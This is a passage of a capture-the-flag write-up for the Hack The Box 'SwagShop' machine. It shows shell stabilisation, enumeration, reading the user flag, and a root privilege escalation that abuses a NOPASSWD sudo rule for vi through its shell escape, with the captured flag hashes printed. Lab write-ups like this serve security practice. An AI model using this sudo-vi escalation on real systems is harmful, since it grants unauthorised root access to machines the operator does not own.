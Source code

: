 ```Ruby
www-data@swagshop:/var/www/html$ stty rows 38 columns 186
www-data@swagshop:/var/www/html$ export SHELL=/bin/bash
www-data@swagshop:/var/www/html$ echo $SHELL
/bin/bash
```
![](upgrading_bash_shell_session.png)
15. **Start enumeration**
```Ruby
1. www-data@swagshop:/var/www/html$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.6 LTS
Release:        18.04
Codename:       bionic
2. USER FLAG found.
3. www-data@swagshop:/home/haris$ cat user.txt
17342f6319abebed67bdebca0e66ded7
```
16. **Enumeration continued...**
```Ruby
1. www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
2. A huge security flaw. I have access as www-data to anything /var/www/html/* . I can write and read to this directory as root. Well, it is pretty obvious that is not very secure at all. No one plans for a hacker to get into their system. Usually once a hacker gets a foothold the system usually gets backdoored after that.
```
### PrivESC to Root using vi shell functionality and Sudoers privilege
- #pwn_vi_drop_to_command_shell_session 
17. **With this information. We can use vi with sudo to gain a root shell**
```Ruby
1. With vi there is functionality to drop into a shell. If the directory you are opening the shell is owned by root then the shell will become a root shell.
2. www-data@swagshop:/home/haris$ sudo vi /var/www/html/foo
3. Now press >>> ESCAPE + Shift + : >>> you can enter commands after the colon.
4. :set shell=/bin/bash + enter
5. ESCAPE + Shift + :shell
6. root@swagshop:/home/haris# whoami
root
7. root@swagshop:/home/haris# cat /root/root.txt
4090c77d788a051fb76e9139a9b9c512
```
![](PWNED_HTB_SWAGSHOP_03_11_2024.png)
18. **Post Exploitation & comments.**
```Ruby
1. Really fun well made box.
```